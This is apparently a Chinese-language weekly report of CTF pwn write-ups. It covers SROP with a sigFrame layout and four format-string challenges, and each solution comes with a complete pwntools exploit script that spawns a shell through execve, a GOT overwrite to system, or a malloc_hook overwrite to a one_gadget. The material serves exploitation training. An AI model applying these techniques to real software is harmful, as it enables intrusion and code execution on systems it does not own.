#   周报
##  SROP
>   通过调用rt_sigreturn()函数恢复sigFrame, 我们可以在栈中提前设置好sigFrame
*   如图是sigFrame的结构

| 0x00 |  rt_sigreturn          | uc_flags |
| ---- | ---- | ---- |
| 0x10 |  &uc                   | uc_stack.ss_sp |
| 0x20 |  uc_stack.ss_flags     | uc_stack.ss_size |
| 0x30 |  r8                    | r9 |
| 0x40 |  r10                   | r11 |
| 0x50 |  r12                   | r13 |
| 0x60 |  r14                   | r15 |
| 0x70 |  rdi                   | rsi |
| 0x80 |  rbp                   | rbx |
| 0x90 |  rdx                   | rax |
| 0xA0 |  rcx                   | rsp |
| 0xB0 |  rip                   | eflags |
| 0xC0 |  cs/gs/fs              | err |
| 0xD0 |  trapno                | oldmask(unused) |
| 0xE0 |  cr2(segfault addr)    | &fpstate |
| 0xF0 |  __reserved            | sigmask |

>   pwntools有现成的工具帮助我们合成sigFrame (SigreturnFrame() 可以获取一个sigFrame结构)

### ciscn_s_3
*   首先查看文件保护是64位并且开启了NX保护

*   代码很简单, main里面只调用了一个vuln, 并且有溢出


*   发现一个gadget可以设置rax为15那么就可以调用15号中断

*   那么我们的思路就有了
    - 首先通过rbp的值获取栈的地址
    - 计算出buf的实际地址
    - 在buf写入/bin/sh并在修改返回地址为rt_sigreturn()然后设置好我们的sigFrame结构

>   payload如下
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p = process('./ciscn_s_3')

vuln       = 0x4004ED
syscall    = 0x400517
mov_rax_15 = 0x4004DA

# 获取栈地址
# vuln没有leave所以rbp不变, 返回地址为push rbp压入栈所以rsp和原来一样, buf地址不发生改变
payload1 = b'a'*0x10+p64(vuln)
p.send(payload1)
stack = u64(p.recv()[0x20:0x20 + 8]) - 0x148 # 本地调试偏移为0x148, buu远程是0x118

#SROP
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = stack
frame.rip = syscall
frame.rsi = 0
frame.rdx = 0

# 执行syscall调用rt_sigreturn函数设置寄存器的值然后执行59号系统中断(execve("/bin/sh", 0, 0))
payload2 = b'/bin/sh\0x00'.ljust(0x10, b'a') + p64(mov_rax_15) + p64(syscall) + bytes(frame)
p.send(payload2)
p.interactive()
```

### smallest
*   首先查看保护只开启了NX保护

*   代码非常简单, 只有一个start函数, 但是存在栈溢出


*   我们的攻击思路
    - 首先利用read的返回值放在rax我们可以设置rax为1调用write函数打印出栈的地址用于写入/bin/sh
    - 第一次调用SROP写入/bin/sh
    - 第二次调用SROP执行execve("/bin/sh", 0, 0)
>   payload如下
```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p = process('./smallest')

start    = 0x4000B0
sys_read = 0x4000B3
syscall  = 0x4000BE

# 布置好栈为后续做准备
# 第一次设置好栈空间
payload1 = p64(start) * 3
p.send(payload1)
sleep(1) # 两次发送之间稍微停顿一下

# 第二次设置rax为1(函数返回值放在rax中, 因此可以通过这个设置系统中断为rt_sigreturn)
# 为使用write读取栈做准备
payload2 = '\xb3'
p.send(payload2)

# 第三次读取栈地址用于写入/bin/sh
stack = u64(p.recv()[8:16])

# SROP执行read函数, 并将rsp跳转到stack用于下一步SROP
frame1 = SigreturnFrame()
frame1.rax = constants.SYS_read
frame1.rip = syscall
frame1.rsp = stack
frame1.rdi = 0
frame1.rsi = stack
frame1.rdx = 0x400
p.send(p64(start) + p64(sys_read) + bytes(frame1))
sleep(1) # 两次发送之间稍微停顿一下
p.send(p64(sys_read) + bytes(frame1)[:constants.SYS_rt_sigreturn - 8])

# SROP执行execve函数
frame2 = SigreturnFrame()
frame2.rax = constants.SYS_execve
frame2.rip = syscall
frame2.rsp = 0
frame2.rdi = stack + len(bytes(frame2)) + 16
frame2.rsi = 0
frame2.rdx = 0
p.send(p64(start) + p64(sys_read) + bytes(frame2) + b'/bin/sh\x00')
sleep(1) # 两次发送之间稍微停顿一下
p.send(p64(sys_read) + bytes(frame1)[:constants.SYS_rt_sigreturn - 8])

p.interactive()
```

##  格式化字符串漏洞

### wdb_2018_2nd_easyfmt
*   查看保护, 32位, 只有NX保护

*   放入IDA并没有地方溢出, 但是程序将输入的数据直接用printf打印

*   发现got表可写

*   我们的思路如下
    -   通过格式化字符串漏洞，将got表中的printf地址修改为system的地址
    -   写入/bin/sh那么调用printf就成了system("/bin/sh")
>   payload如下
```python
from pwn import *
from LibcSearcher import *
p   = process('./wdb_2018_2nd_easyfmt')
elf = ELF('./wdb_2018_2nd_easyfmt')

# 将printf的got值改成system
printf_got = elf.got['printf']

p.recvuntil(b'Do you know repeater?\n')

# 获取system的地址
p.send(b'%22$p')
libc_system = int(p.recv()[:10], 16) + 0x2fcb2
system_l = libc_system & 0xff           # system第一个字节的值
system_h = (libc_system>>8) & 0xffff    # system第二三个字节的值

# 在buf储存printf的got表地址
# 通过调用printf(buf)修改buf指向的地址的值, 即printf_got
# 先写入printf_got的第一个字节, 然后写入剩下的三个字节
payload = p32(printf_got) + p32(printf_got + 1)
payload += b'%' + bytes(str(system_l - 8).encode()) + b'c%6$hhn'
payload += b'%' + bytes(str(system_h - system_l).encode()) + b'c%7$hn'

p.send(payload)
p.recv()
p.send(b'/bin/sh\x00') # printf(buf)变成了system(buf), 只需要在buf写入/bin/sh
p.interactive()
```

### Siri
*   查看保护发现保护全开

*   在这个函数中发现了格式化字符串漏洞, 同时这个函数可以无限被调用

*   我们的思路
    -   使用格式化字符串漏洞泄露出libc_start_main函数的实际地址
    -   计算出libc中的onegadget
    -   因为调用printf输入长的字符串会调用malloc重新申请更大的缓冲区, malloc函数通过调用malloc_hook函数指针, 那么我们可以修改malloc_hook指向我们找到的onegadget
    -   输入超长字符串触发malloc

>   我们的payload如下
```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', os='linux', log_level='debug')
p = process('./Siri')

p.recvuntil('>>> ')
p.send('Hey Siri!')
p.recvuntil('\n>>> ')

# 获取__malloc_hook的地址
p.send('Remind me to %103$p')
libc_start_main = int(p.recv()[27:27+14], 16) - 128
libc = LibcSearcher('__libc_start_main', libc_start_main)
libc_base   = libc_start_main - libc.dump('__libc_start_main')
malloc_hook = libc_base + libc.dump('__malloc_hook')
gadget      = libc_base + 0xebc85

# 因为调用printf输入长的字符串会调用malloc重新申请更大的缓冲区
# malloc函数调用malloc_hook函数指针
# 那么我们可以修改malloc_hook指向我们找到的onegadget
payload = b'Remind me to '
write_size = 0
for i in range(3):
    vulen  = (gadget>>(i*16)) & 0xffff
    vulen -= 27
    # 对于每个字节，我们都需要写入一个字节，所以我们需要写入vulen个字节
    # 如果已经输入的字符大于了将要输入的值, 那么我们就需要输入对应的负数
    if(vulen > write_size&0xffff):
        payload += b'%' + bytes(str(vulen - (write_size&0xffff)).encode()) + b'c%' + bytes(str(55 + i).encode()) + b'$hn'
        write_size+=vulen - (write_size&0xffff)
    else:
        payload += b'%' + bytes(str(0x10000 - (write_size&0xffff) + vulen).encode()) + b'c%' + bytes(str(55 + i).encode()) + b'$hn'
        write_size+=0x10000 - (write_size&0xffff) + vulen
# 由于我们的payload长度是80，所以我们需要填充一些东西
payload += b'a' * (80 - len(payload) - 8 * 3)
# 设置56~80字节为malloc_hook的地址进行赋值
payload += p64(malloc_hook)
payload += p64(malloc_hook+2)
payload += p64(malloc_hook+4)

p.send('Hey Siri!')
p.recvuntil('\n>>> ')
p.send(payload)

p.recvuntil('>>> ')
p.send('Hey Siri!')
p.recvuntil('\n>>> ')
# 写入大量字符串触发malloc函数
p.send('Remind me to %99999c')
p.interactive()
```

### quantum_entanglement
*   检查文件保护, 32位开启了Canary和NX保护

*   参数错误无法显示伪代码, 我们按y先修正参数

*   查看代码


*   我们的利用思路
    -   我们可以先把一个随机数的地址写入一个地址的值中
    -   把第二个随机数写入第一个随机数即可

>   payload如下
```
from pwn import *
p = process('./quantum_entanglement')

# 将第一个随机数的地址写入一个地址的值中
payload1 = b'%*19$c%80$hn'
# 把第二个随机数写入第一个随机数中
payload2 = b'%*18$c%124$n'

p.recvuntil('FirstName:')
p.sendline(payload1)
p.recvuntil('LastName:')
p.sendline(payload2)

p.recv()
p.interactive()
```